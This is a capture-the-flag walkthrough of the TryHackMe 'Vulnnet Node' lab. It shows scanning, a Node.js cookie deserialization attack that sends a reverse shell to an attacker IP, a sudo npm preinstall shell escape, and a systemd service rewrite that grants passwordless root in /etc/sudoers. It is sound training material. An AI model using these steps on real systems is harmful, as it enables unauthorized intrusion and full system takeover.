In this walkthrough, we'll go over a challenge (intermediate) level box called "Vulnnet Node" on [TryHackMe](https://tryhackme.com/room/vulnnetnode) 



Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.203.200 --open
```
Per the nmap result, it looks like the only port open is 8080:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 17:10 EDT
Nmap scan report for 10.10.203.200
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds
```
When we visit the website, we see a bunch of feeds:


We can run dirsearch `dirsearch -u http://10.10.203.200:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt --plain-text-report=vulnnetNode-dirsearch.txt`:


If we perform further inspection, we can see that the GET request provided a cookie:


Once we put the cookie string into the decoder we get the below data:


We can then use the following GitHub https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py to download the Python file and generate the below reverse shell payload:
`python nodejsshell.py 10.13.6.172 5555`


We then encode it with base 64 in the Burp decoder:


We start a nc listener and paste the encoded payload into the cookie section in the repeater and then send it:


We are able to receive a shell back:



Upon running `sudo -l`, we can see that serv-manage cound run "/usr/bin/npm":


At this point, we can follow the instructions from GTFObin https://gtfobins.github.io/gtfobins/npm/#sudo
```bash
www@vulnnet-node:~/VulnNet-Node/node_modules$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:~/VulnNet-Node/node_modules$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www@vulnnet-node:~/VulnNet-Node/node_modules$ chmod 777 $TF
chmod 777 $TF
www@vulnnet-node:~/VulnNet-Node/node_modules$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```


After becoming serv-manage, we can run again `sudo -l`:


A closer look to vulnnet-auto.timer reveals that the timer and vulnnet-job.service need to be changed:



Since we can't directly change the contents of the files, we could to use https://www.base64encode.org/ and put the below into the converter:
```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```



We could then use the following to edit "/etc/systemd/system/vulnnet-job.service"
```bash
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPUxvZ3Mgc3lzdGVtIHN0YXRpc3RpY3MgdG8gdGhlIHN5c3RlbWQgam91cm5hbApXYW50cz12dWxubmV0LWF1dG8udGltZXIKCltTZXJ2aWNlXQojIEdhdGhlciBzeXN0ZW0gc3RhdGlzdGljcwpUeXBlPWZvcmtpbmcKRXhlY1N0YXJ0PS9iaW4vc2ggLWMgJ2VjaG8gInNlcnYtbWFuYWdlIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTCIgPiAvZXRjL3N1ZG9lcnMnCgpbSW5zdGFsbF0KV2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQ=' | base64 -d > /etc/systemd/system/vulnnet-job.service
```

We then run each command:




This is one of the machines that has a lot of steps to get a root shell.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
